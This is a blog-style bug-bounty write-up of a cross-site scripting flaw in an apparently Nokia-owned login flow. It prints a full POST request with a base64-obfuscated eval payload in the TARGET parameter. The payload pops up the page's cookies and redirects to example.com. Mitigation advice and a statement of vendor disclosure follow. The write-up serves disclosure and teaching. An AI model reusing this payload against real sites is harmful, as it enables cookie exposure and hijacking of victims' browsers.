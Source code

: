 ```yaml
---
layout: post
title: Nokia XSS WriteUP
---
```


# The Chronicles of a Cross-Site Scripting (XSS) Vulnerability
![](https://hithmast.github.io/images/xss.jpg)
## Prelude to Discovery

As a curious security enthusiast, I set out on a digital expedition to explore the inner workings of **https://redacted.com**. Little did I anticipate that this journey would unveil a hidden treasure trove - a vulnerability that could potentially compromise user data and tarnish the application's integrity. The vulnerability, a Cross-Site Scripting (XSS) flaw, revealed a critical oversight that begged for attention.

## Unraveling the Payload

The heart of this vulnerability lay in the artful crafting of a payload, a carefully concocted string of characters that could manipulate the very fabric of the application. The payload danced within the confines of the **TARGET** parameter in a POST request, like a silent whisper waiting to be unleashed.

```plaintext
TYPE=33554433&REALMOID=06-85c1bf1c-4c45-4e33-a396-e3c5954a2b66&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=$SM$8Tmx7I3fjX%2fpvbLJxP1%2bYKCn%2f%2fhkBCuK%2fC3ufg4zicmwN5Am%2bfChNVQgafvDS3wf&TARGET=\"--><script>eval(atob(\'YWxlcnQoJ1hTUyBCeSBBbGkgRW1hcmEnKTthbGVydCgnRG9tYWluOiAnK2RvY3VtZW50LmRvbWFpbik7YWxlcnQoJ1lvdXIgQ29va2llczpcbicrZG9jdW1lbnQuY29va2llKTt0b3AubG9jYXRpb24uaHJlZj0naHR0cDovL2V4YW1wbGUuY29tJzs=\'))</script>'
```

## The Payload's Mischief

```
\"--><script>eval(atob(\'YWxlcnQoJ1hTUyBCeSBBbGkgRW1hcmEnKTthbGVydCgnRG9tYWluOiAnK2RvY3VtZW50LmRvbWFpbik7YWxlcnQoJ1lvdXIgQ29va2llczpcbicrZG9jdW1lbnQuY29va2llKTt0b3AubG9jYXRpb24uaHJlZj0naHR0cDovL2V4YW1wbGUuY29tJzs=\'))</script>
```

This potent payload, once injected into the **TARGET** parameter, wielded the ability to spring into action upon an unsuspecting victim's visit. It started innocently enough, alerting my name and the domain URL. Yet, this was merely the prelude to its grand finale. With an audacious flourish, the payload executed a script that decoded and executed further instructions.

The final act of this payload redirected users to an external site, **example.com**, under the attacker's control. This sequence of events demonstrated the vulnerability's potential to compromise user data, deceive users with misleading content, or launch more sinister attacks.

## The Source of Vulnerability

The root cause of this XSS vulnerability lay in the application's inadequate input validation and sanitation. The absence of stringent measures allowed this nefarious payload to infiltrate and manipulate the application's behavior, emphasizing the critical need for robust security mechanisms.

## Thwarting the Threat: Mitigation Strategies

To quell this vulnerability's menacing potential, several strategic measures are advised:

1. **Impeccable Input Sanitization**: Enhance input validation and sanitation procedures to neutralize malicious payloads before they infiltrate the application.

2. **Fortify with CSP**: Implement a comprehensive Content Security Policy (CSP) to control script execution sources and protect against unauthorized scripts.

3. **Encode for Defense**: Encode user-generated content to prevent script execution and bolster the application's defenses against similar attacks.

4. **Safeguard through Audits**: Conduct regular security audits and vulnerability assessments to ensure vigilant protection against evolving threats.

5. **Vigilance in Validation**: Maintain rigorous validation of user inputs, especially those used in dynamic content generation.

## Epilogue: A Call to Action

Armed with this newfound knowledge, I have alerted Nokia's security team to the presence of this vulnerability. My aim is to contribute to the safeguarding of user data and the fortification of the application's defenses. Through this narrative, I hope to underscore the urgency of addressing XSS vulnerabilities and fostering a safer digital landscape for all.

In the tapestry of digital security, every discovered vulnerability serves as a catalyst for growth, learning, and a resolute commitment to shield our online realms from harm.

## Resources
[eval function](https://www.w3schools.com/jsref/jsref_eval.asp)
[atob function](https://www.w3schools.com/jsref/met_win_atob.asp)
[Cyber Chef](https://gchq.github.io/CyberChef)